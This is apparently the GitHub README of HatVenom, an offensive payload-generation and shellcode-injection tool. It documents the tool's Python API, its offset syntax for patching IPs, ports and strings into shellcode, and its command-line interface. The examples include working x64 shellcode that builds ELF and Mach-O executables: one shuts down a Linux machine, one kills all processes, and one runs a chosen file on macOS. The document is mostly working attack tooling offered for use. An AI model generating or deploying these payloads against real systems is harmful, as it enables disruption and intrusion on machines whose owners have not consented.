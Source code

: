 # HatVenom

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatVenom?color=yellow">
    </a>
</p>

HatSploit native powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data or inject shellcode.

* `ip_bytes(ip)` - Converts IP address to bytes allowed by shellcode.
* `port_bytes(port)` - Converts numeric port to bytes allowed by shellcode.
* `string_bytes(string)` - Converts string to bytes allowed by shellcode.
* `generate(file_format, arch, shellcode, offsets={})` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, offsets={}, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that calls shutdown for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Payload offsets

Payload offsets is a variables used to add something to a shelcode on the preprocessing stage. Offsets looks like this:

```shell
\x90\x90\x90\x90:message:string:\x90\x90\x90\x90
```

Where `message` is an offset name and `string` is an offset type. So the basic usage of the offset looks like:

```shell
[shellcode]:[name]:[type]:[shellcode]
```

There are some possible offsets types:

* `string` - Plain text that will be converted to bytes on the preprocessing stage.
* `ip` - IP address that will be converted to bytes on the preprocessing stage.
* `port` - Numeric port that will be converted to bytes on the preprocessing stage.

So if you want to replace offset with bytes instead of `string`, `ip` and `port`, you can use this type:

```shell
[shellcode]:[name]:[shellcode]
```

### Examples

Let's generate a simple payload that executes provided through `file` offset file for macOS and save it to `a.out`.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":file:string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'file':'//bin/ps'})
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [--format FORMAT] [--arch ARCH] [--shellcode SHELLCODE]
                [--offsets OFFSETS] [-o OUTPUT] [-l]

Powerful payload generation and shellcode injection tool that provides support
for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  --format FORMAT       Platform to generate for.
  --arch ARCH           Architecture to generate for.
  --shellcode SHELLCODE
                        Shellcode to inject.
  --offsets OFFSETS     Shellcode offsets.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
  -l, --list            List all formats and platforms.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```

**NOTE:** If you want to use offsets in the CLI version of HatVenom, then you should use `--offsets one=1,two=2`

## All tools

<p>
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatBoard">
        <img src="https://img.shields.io/badge/EntySec-HatBoard-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/EntySec-HatVenom-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/RomBuster">
        <img src="https://img.shields.io/badge/EntySec-RomBuster-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/EntySec-CamOver-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Shreder">
        <img src="https://img.shields.io/badge/EntySec-Shreder-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-pwny-448eff.svg">
    </a>
</p>
